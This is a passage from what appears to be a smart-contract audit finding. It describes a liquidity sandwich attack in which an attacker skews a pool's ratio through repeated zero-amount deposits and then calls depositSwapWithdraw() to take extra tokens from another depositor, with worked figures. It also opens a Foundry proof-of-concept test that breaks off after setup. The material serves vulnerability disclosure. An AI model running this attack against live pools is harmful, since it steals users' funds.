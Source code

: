         \end{split}
        \end{equation}
        $$
        - **_Note_** that there is no check anywhere to make sure that the actual `addedAmountX` should be greater than DUST. Hence, $0$ of token2 is accepted. This is one part of the issue.
        - Bob uses multiple accounts to do the above until finally the ratio gets skewed to `200 : 1`. He has to actually do this 99 times to achieve this ratio (shown in the PoC). He could have chosen a lower ratio too.
        - Alice's transaction now gets through and `200 ether` of token1 is in the pool along with some token2. Alice had to deposit lesser amount of token2 due to the skewed ratio.
        - Bob calls `depositSwapWithdraw()` and this time gets:
        $$
        \begin{equation}
        \begin{split}   amountOut &= reserve1 * amountIn / reserve0 \\
                        &= ( 200000000000000020201 * 1000000000000000000 ) \div ( 999950497500123857 + 1000000000000000000 ) \\
                        &= 100002475186257770959 \text{ (rounded-down)}
        \end{split}
        \end{equation}
        $$

Bob stole an extra $100002475186257770959 - 67337733629590904299 = 32664741556666866660$ of token1.

## Proof of Concept - 1
Create a new file `src/staking/tests/BugSandwichLiquidity.t.sol` with the following code and run via `COVERAGE="yes" NETWORK="sep" forge test -vv --rpc-url https://rpc.ankr.com/eth_sepolia --mt test_bug_sandwich_liquidity`:
```js
// SPDX-License-Identifier: Unlicensed
pragma solidity =0.8.22;

import "../../dev/Deployment.sol";


contract BugSandwichLiquidityTest is Deployment
{
    bytes32[] public poolIDs;
    bytes32 public pool1;

    IERC20 public token1;
    IERC20 public token2;

    address public constant alice = address(0x1111);
    address public constant bob = address(0x2222);

	uint256 token1DecimalPrecision;
	uint256 token2DecimalPrecision;

    function setUp() public
    	{
		// If $COVERAGE=yes, create an instance of the contract so that coverage testing can work
		// Otherwise, what is tested is the actual deployed contract on the blockchain (as specified in Deployment.sol)
		if ( keccak256(bytes(vm.envString("COVERAGE" ))) == keccak256(bytes("yes" )))
			initializeContracts();


		grantAccessAlice();
		grantAccessBob();
		grantAccessDeployer();
		grantAccessDefault();

		finalizeBootstrap();

```